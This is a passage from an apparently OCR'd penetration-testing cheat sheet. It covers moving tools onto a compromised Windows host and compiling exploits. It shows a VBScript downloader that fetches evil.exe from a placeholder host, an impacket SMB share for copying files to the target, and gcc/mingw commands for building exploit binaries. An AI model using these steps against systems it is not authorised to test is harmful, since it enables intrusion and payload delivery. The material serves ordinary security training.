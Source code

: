 ```
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# After you've created wget.vbs
cmd> cscript wget.vbs http://[host]/evil.exe evil.exe
```

SMB
```
# Kali - host SMB share
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py [sharename] [/path/to/share]  # setup local share

# Target - connect to share
cmd> net view \\[kali]              # view remote shares
cmd> net use \\[kali]\[share]       # connect to share
cmd> copy \\[kali]\[share]\[src_file] [/path/to/dest_file]  # copy file
```

## Compilation

Linux C to .SO (shared library)
```
$ gcc -o exploit.so -shared exploit.c -fPIC 
```

Linux compiles
```
$ gcc -m32 exploit.c -o exploit # 32 bit
$ gcc -m64 exploit.c -o exploit # 64 bit
```

Linux 32/64bit cross-architecture ELF
```
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit
```

Linux to Windows EXE
```
# 32 bit Windows
$ i686-w64-mingw32-gcc 25912.c -o exploit.exe -lws2_32

# 64 bit Windows
$ x86_64-w64-mingw32-gcc exploit.c -o exploit.exe 

# run exe in linux
$ wine exploit.exe
```

Windows Python to Windows EXE
```
$ python pyinstaller.py --onefile <pythonscript>
```
